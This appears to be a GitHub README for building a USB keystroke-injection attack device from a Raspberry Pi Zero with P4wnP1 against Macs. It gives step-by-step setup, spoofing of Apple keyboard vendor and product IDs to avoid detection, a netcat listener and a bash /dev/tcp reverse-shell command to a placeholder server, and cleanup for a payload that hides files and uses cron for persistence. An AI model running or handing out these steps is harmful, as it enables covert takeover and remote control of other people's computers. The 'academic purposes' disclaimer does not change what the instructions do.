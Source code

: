 # Ducky Raspberry Pi Zero for Mac

There are some threads about P4wnP1 ducky not running on Mac but here is an introduction about setting up P4wnP1 so your pi zero can attack Mac.

## Demo Video

[![Brian Ducky Raspberry Pi Zero demo](https://img.youtube.com/vi/vyz5C6BCJAE/0.jpg)](https://www.youtube.com/watch?v=vyz5C6BCJAE)

## Requirements

1. Raspberry Pi Zero
2. 8G+ Micro SD card
3. USB Cable \(A-Male to Micro B\)

## Setup

1. Download Raspbian Stretch Lite [image](https://www.raspberrypi.org/downloads/raspbian/).
2. Install image on micro SD card with [Etcher](https://www.balena.io/etcher/).
3. Boot your pi and login with default username and password.
```
username: pi
password: raspberry
```
4. (Optional) Change default password for a better security.
5. Connect to network using Wi-Fi or ethernet (Adapter needed).
```shell
sudo raspi-config
```
6. Download P4wnP1 package and install it. \(If newer version is not working, I have an archived version in this repository that worked when I wrote this documentation.\)
```shell
git clone --recursive https://github.com/mame82/P4wnP1
cd P4wnP1/
./install.sh
```
7. (Important) Change scripts so it will run on Mac. This is a temporarily (03/25/19) workaround solution. "open('/dev/hidg0','rb')" is not working on Mac currently so add a timeout to line 200 in P4wnP1/boot/boot_P4wnP1.
```shell
timeout 1 python -c "with open('/dev/hidg0','rb') as f:  print ord(f.read(1))"
```
8. (Important) Use Vendor ID and Product ID from a real Apple keyboard in your payload so Mac won't be asking you to setup an unknown keyboard. See example [here](./payloads/hid_keyboard_hello_world.txt).
```
USB_VID="0x05ac"  # Vendor ID
USB_PID="0x027b"  # Product ID
```
9. Put your payload into P4wnP1/payloads/ on your pi zero. Load the payload in "P4wnP1/setup.cfg".
```
PAYLOAD=hid_keyboard_hello_world.txt  # Add to the end of the file
```
10. Shutdown the pi zero and plug it into a Mac with USB cable mentioned [above](#requirements). Use peripheral micro USB port, not the power port. No power needed here, pi zero takes power from target machine.
```shell
sudo shutdown -h now
```
11. If you want to edit the payload later, plug the pi zero into your machine, connect to Wi-Fi "P4wnP1" with password "MaMe82-P4wnP1", and ssh to it.
```shell
ssh pi@172.16.0.1
```

## Create a Reverse Shell Backdoor

1. Host Netcat server on your machine.
```shell
nc -l -p 8080 -vvv
```
2. Create a descriptor on target machine. Make sure to change the IP address and port to your server. Your server must be in the same network as target unless you have a public IP that can be accessed by target machine everywhere. \(Run the descriptor in background is recommended.\)
```shell
bash -i >& /dev/tcp/YOUR_SERVER_IP/8080 0>&1
```
3. On your server, when you see a connection being created, you then have bash access to the target machine. You would be able to see the output of bash directly on your machine with the setup above.
4. In [payloads/](./payloads/) there is a reverse shell ducky script example. Here is the clean up script if you use my example.
```shell
rm ~/app_support.sh; rm /tmp/app_support.sh; rm ~/.ssh/rsa_pub_; rm ~/Library/.hidden/app_support.sh; rm ~/Library/Python3.65; rm /usr/local/bin/Python3.65;
echo "" | crontab - && crontab -r
```

## What Now

```shell
osascript -e 'set volume 7' && open https://www.youtube.com/watch?v=dQw4w9WgXcQ&frags=pl%2Cwn
```

## Author and Contributors

* **[Brian Sung](https://github.com/ohbriansung)** 
* Jordan Aldujaili
* Omar Sharif

## Disclaimer

This repository is for academic purposes, the use of this software is your responsibility.

## References

0. [Raspbian](https://www.raspberrypi.org/downloads/raspbian/)
1. [Ducky Script](https://github.com/hak5darren/USB-Rubber-…)
2. [P4wnP1](https://github.com/mame82/P4wnP1/)
3. [Reverse Shell with Bash](https://www.gnucitizen.org/blog/reverse-shell-with-bash/)